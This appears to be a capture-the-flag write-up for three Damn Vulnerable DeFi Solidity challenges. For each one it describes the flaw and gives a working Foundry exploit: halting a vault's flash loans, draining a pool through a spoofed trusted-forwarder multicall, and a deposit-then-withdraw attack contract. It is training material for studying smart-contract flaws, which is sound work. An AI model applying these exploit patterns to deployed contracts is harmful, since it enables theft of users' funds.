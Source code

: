 ### `Unstoppable::flashloan`, Flash loans can be haulted if balance of `Unstoppable::totalSupply` & `Unstoppable::totalAssets` are not 1:1. 

``` solidity 
        uint256 balanceBefore = totalAssets();
        // shares must be 1:1 with balance
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

### PoC: 
Any account can hault flash loans if they send `Unstoppable` an unexpected amount of assets. 

``` solidity 

    function test_unstoppable() public checkSolvedByPlayer {

        uint256 _totalsupply = vault.totalSupply();
        uint256 shares = vault.convertToShares(_totalsupply);

        token.transfer(address(vault), 1);
        console.log("balance of vault: %s", vault.totalAssets());
        console.log("total number of shares: %s", shares);

        vm.expectRevert();
        vault.flashLoan(recipient, address(token), 2e18, "");
    }

```

``` diff

    DamnValuableToken public token;
    UnstoppableVault public vault;
    UnstoppableMonitor public monitorContract;
+    FlashLoanRecipient public recipient;

    function setUp() public {
        startHoax(deployer);
        // Deploy token and vault
+      recipient = new FlashLoanRecipient(token,vault);
        token = new DamnValuableToken();
```



``` solidity 
contract FlashLoanRecipient is IERC3156FlashBorrower {
    DamnValuableToken public token;
    UnstoppableVault public vault;

    constructor(DamnValuableToken _token, UnstoppableVault _vault) {
        token = _token;
        vault = _vault;
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        console.log("FlashLoan Recipient balance during execution: %s", DamnValuableToken(token).balanceOf(address(this)));

        DamnValuableToken(token).approve(address(vault), amount + fee);

        return keccak256("IERC3156FlashBorrower.onFlashLoan");
    }
}
```

---

### `NaiveReceiverPool::flashLoan`, Funds can be drained 

### PoC:
How to spot the bug:

1. Review NaiveReiverPool
    1. identify main point of interest, which is `NaiveReceiverPool::flashLoan`
    2. `NaiveReceiverPool::flashLoan` is using `FlashLoanReceiver::onFlashLoan` function to ensure that the borrower contract has successfully implemented and completed the `onFlashLoan` callback according to the ERC-3156 standard.
    3.  `_msgSender` function determines the true originator of a transaction, particularly when it’s forwarded by a relayer contract, like `BasicForwarder`. It checks if the `msg.sender` is the `trustedForwarder`. If so, it extracts the actual sender from the call data. If `msg.sender` is not the trusted forwarder, it simply returns `msg.sender`.
2. Review `Multicall` and `BasicForwarder`
    1. `Multicall`: has a single function that accepts an array of function call data to delegate call multiple functions in a single tx
    2. `BasicForwarder`: provides a way for users to "sign" transaction requests off-chain, including all the transaction details such as the target, value, gas, nonce, and deadline. This signed request is then handed to a relayer off-chain. The relayer, or another entity, can submit it on-chain by invoking the `execute` function with the signed request and associated data. The `execute` function then verifies the request’s validity by checking the signature, nonce, and other constraints before forwarding the transaction to the specified target contract.
3. Things we know so far:
    1. We know `Multicall` is used to initiate multiple delegate calls 
    2. `NaiveReceiverPool::flashLoan` is using `FlashLoanReceiver::onFlashLoan`
    3. We know the NaiveReceivePool’s balance has 10eth
    4. There is a fee of 1eth that the NaiveReceivePool receives per flashloan which increases `deposits[feeReceiver] **+=** *FIXED_FEE*;`
4. Attack process:
    1. Build the request, and fill out the request information 
    2. Invoke `BasicForwarder::execute` 
        1. Trusted Forwarder(BasicForwarder) is calling MultiCall with calldata to  `NaiveReceiverPool::flashloan` &  `NaiveReceiverPool::withdraw` 
            1. when `NaiveReceiverPool::flashloan` is invoked it will trigger `FlashLoanReceiver::onFlashLoan` → this will be called 10x
        2. 11th (last call) will trigger `BasicForwarder::withdraw`

``` solidity 

    function test_naiveReceiver() public checkSolvedByPlayer {
        // build the delegate call data that will be sent over to MultiCall
        bytes[] memory delegateData = new bytes[](11);
        for (uint256 i; i < 10; i++) {
            // building the first call, it will cal the flashloan 10x
            delegateData[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 1e18, ""));
        }
        // building second call
        uint256 amountToWithdraw = weth.balanceOf(address(pool)) + weth.balanceOf(address(receiver));
        delegateData[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (amountToWithdraw, payable(recovery))), bytes32(uint256(uint160(deployer))));
        
        bytes memory data;

        data = abi.encodeCall(pool.multicall, delegateData);

        // build the request 
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player, // from 
            address(pool), // target
            0, // value
            1000000, // gas
            forwarder.nonces(player), // players nonce
            data, // bytes: contains both calls, flash loan & withdraw. 
            1 days // deadline
        );
        
        bytes32 hash = keccak256(abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
        ));

        // signing encoded hash with players private key and then separating the sig in three parts
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, hash);
        
        bytes memory sig = abi.encodePacked(r, s, v);

        forwarder.execute(request, sig);
    }

```
---




### `SideEntranceLenderPool::flashloan`, `address(this).balance` is used a check if the funds have been paid back

### PoC:
1. borrow money from the pool
2. side entrance lender pool contract calls execute function inside the attack contract and the execute function specifies to pay back what was borrowed
3. call withdraw 
4. transfer the funds over to the recovery address

``` solidity
    function test_sideEntrance() public checkSolvedByPlayer {
        AttackerContract attacker = new AttackerContract(address(pool), recovery, ETHER_IN_POOL);
        attacker.attack();
    }
```

``` solidity
contract AttackerContract {
    address public recovery;
    uint256 public amount;
    SideEntranceLenderPool public pool; 

    constructor(address _pool, address _recovery, uint256 _amount) {
        pool = SideEntranceLenderPool(_pool);
        recovery = _recovery;
        amount = _amount;
    }

    receive() external payable {}

    function attack() public {
        // call flashloan 
        pool.flashLoan(amount);

        // withdraw the funds
        pool.withdraw();

        // transfer the funds over to the recovery account 
        payable(recovery).transfer(amount);
    }

    function execute() external payable {
        // deposit the flash loan amount back to the flash loan 
        pool.deposit{value: msg.value}();
    }
}
```
